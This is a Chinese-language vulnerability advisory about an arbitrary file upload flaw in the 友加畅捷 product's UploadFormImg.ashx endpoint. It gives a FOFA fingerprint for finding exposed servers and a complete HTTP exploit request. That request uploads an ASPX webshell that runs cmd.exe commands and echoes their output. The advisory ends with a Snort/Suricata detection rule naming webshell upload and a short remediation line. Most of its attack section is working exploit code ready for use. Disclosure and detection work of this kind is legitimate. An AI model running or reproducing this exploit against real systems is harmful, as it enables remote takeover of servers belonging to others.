

# 友加畅捷-UploadFormImg-文件上传

友加畅捷-UploadFormImg-文件上传，攻击者可执行任意命令导致服务器被控。

# 影响版本

友加畅捷

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="2049187099"

POC/EXP：

```
GET /Report/Upload/UploadFormImg.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:152.0) Gecko/20100101 Firefox/152.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ASP.NET_SessionId=jbrnojca2wzaxlwu0depa115; toLogin=0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 3770

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="Op"

UploadImgFile
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="Type"

image
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="NameRule"

1
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="test01.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#" %><script runat="server">protected void Page_Load(object sender,EventArgs e){System.Diagnostics.Process p=new System.Diagnostics.Process();p.StartInfo.FileName="cmd.exe";p.StartInfo.Arguments="/c netstat -ano";p.StartInfo.UseShellExecute=false;p.StartInfo.RedirectStandardOutput=true;p.StartInfo.CreateNoWindow=true;p.Start();Response.Write(p.StandardOutput.ReadToEnd());p.WaitForExit();}</script>
------WebKitFormBoundary7MA4YWxkTrZu0gW--

```



上传访问地址：/Report/UploadFile/test01.aspx

sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"友加畅捷 - /Report/Upload/UploadFormImg.ashx 任意文件上传 (aspx webshell)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/Report/Upload/UploadFormImg.ashx";
        fast_pattern;
    http.content_type; content:"multipart/form-data";
    http.request_body;
        content:"Content-Disposition: form-data; name=\"file\""; nocase;
        content:"filename=\""; distance:0; nocase;
        content:".aspx"; distance:0; nocase;
        content:"Page Language=\"C#\""; distance:0; nocase;
        content:"Process"; distance:0; nocase;
    metadata:
        service http,
        affected_product "友加畅捷",
        vulnerability_type "Unrestricted File Upload / Webshell Upload",
        severity "critical";
    classtype:web-application-attack;
    sid:1000756;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
